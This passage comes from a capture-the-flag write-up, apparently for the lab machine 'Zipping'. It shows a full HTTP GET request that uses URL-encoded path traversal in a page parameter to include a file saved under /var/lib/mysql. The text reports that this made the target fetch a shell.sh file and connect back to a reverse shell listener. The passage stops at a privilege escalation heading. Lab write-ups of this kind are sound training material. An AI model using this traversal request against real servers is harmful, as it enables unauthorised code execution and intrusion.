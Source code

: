 ```
HTTP/1.1 200 OK
Date: Fri, 29 Dec 2023 10:32:50 GMT
Server: Apache/2.4.54 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 23
Connection: close
Content-Type: text/html; charset=UTF-8

Product does not exist!
```

Now we were able to reach this file by sending the following request. The page parameter contains the url encoded path to our page we just saved.

```
GET /shop/index.php?page=..%2f..%2f..%2f..%2f..%2fvar%2flib%2fmysql%2fcalico3 HTTP/1.1
Host: 10.10.11.229
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=73lml6dp7ndhvc7f29dn95el34
Upgrade-Insecure-Requests: 1
```

Then a moment later we could see that the machine tried to grab our shell.sh file

![Shell file grabbed](/assets/img/Zipping/Zipping_02.png)

Then a few moments later we would get a connection on our reverse shell listener as well

![Shell file grabbed](/assets/img/Zipping/Zipping_03.png)

## Privilege escalation
